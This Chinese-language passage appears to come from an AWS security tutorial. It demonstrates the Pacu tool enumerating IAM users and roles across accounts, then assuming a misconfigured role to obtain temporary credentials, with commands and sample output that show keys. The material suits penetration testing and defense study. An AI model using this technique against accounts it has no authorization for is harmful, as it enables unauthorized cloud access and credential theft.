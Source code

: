 ```
[iam__enum_users]     arn:aws:iam::000000000000:user/Alexa
[iam__enum_users]     arn:aws:iam::000000000000:user/Test

[iam__enum_users] iam__enum_users completed.

[iam__enum_users] MODULE SUMMARY:

  2 user(s) found after 7 guess(es).
```

输出显示，它在修改后的单词列表中的七个猜测中找到了两个有效用户。在编写本文时，Pacu 使用的默认单词列表有 1136 个名称，它将尝试使用。

# 枚举角色

过去，可以使用类似的攻击来枚举另一个 AWS 帐户中存在的角色，而且，如果只需要 AWS 帐户 ID，那么我们基本上可以强制执行所有存在的角色。自 Rhino Security Labs 发布以来，AWS 修改了 STS`AssumeRole`API 调用从 API 返回的错误消息，这意味着无法再使用此方法确定角色是否存在。`iam__enum_assume_role`Pacu 模块就是为了利用这一点而编写的，但由于这一变化而不再工作。

另一方面，发现了一种新方法，允许您在跨帐户的基础上枚举角色。此方法与用于枚举跨帐户用户的方法相同。最初，这个方法不像现在这样工作，但必须对 API 进行一些更改，以使这个枚举成为可能。编写了一个新的 PACU 模块来滥用该攻击向量，并命名为 EndoT0.它的工作原理与`iam__enum_users`模块完全相同，因此可以使用基本相同的命令运行：

```
 run iam__enum_roles --account-id 000000000000 --role-name TestRole 
```

该模块将枚举目标帐户中存在的角色，然后尝试使用这些角色检索临时凭据，以防其策略配置错误并允许您访问。该模块的部分内容如下：

```
Pacu (Spencer:imported-default) > run iam__enum_roles --account-id 000000000000 --role-name TestRole 
  Running module iam__enum_roles... 
[iam__enum_roles] Warning: This script does not check if the keys you supplied have the correct permissions. Make sure they 
are allowed to use iam:UpdateAssumeRolePolicy on the role that you pass into --role-name and are allowed to use sts:AssumeRole to try and assume any enumerated roles! 

[iam__enum_roles] Targeting account ID: 000000000000 

[iam__enum_roles] Starting role enumeration... 

[iam__enum_roles]   Found role: arn:aws:iam::000000000000:role/service-role/AmazonAppStreamServiceAccess 
[iam__enum_roles]   Found role: arn:aws:iam::000000000000:role/CodeDeploy 
[iam__enum_roles]   Found role: arn:aws:iam::000000000000:role/SSM 

[iam__enum_roles] Found 3 role(s): 

[iam__enum_roles]     arn:aws:iam::000000000000:role/service-role/AmazonAppStreamServiceAccess 
[iam__enum_roles]     arn:aws:iam::000000000000:role/CodeDeploy 
[iam__enum_roles]     arn:aws:iam::000000000000:role/SSM 

[iam__enum_roles] Checking to see if any of these roles can be assumed for temporary credentials... 

[iam__enum_roles]   Role can be assumed, but hit max session time limit, reverting to minimum of 1 hour... 

[iam__enum_roles]   Successfully assumed role for 1 hour: arn:aws:iam::000000000000:role/CodeDeploy 

[iam__enum_roles] { 
  "Credentials": { 
    "AccessKeyId": "ASIATR17AL2P90OB3U6Z", 
    "SecretAccessKey": "nIll8wr/T60pbbeIY/hkqRQlC9njUzv3RKO3qznT", 
    "SessionToken": "FQoGAR<snip>iC/aET", 
```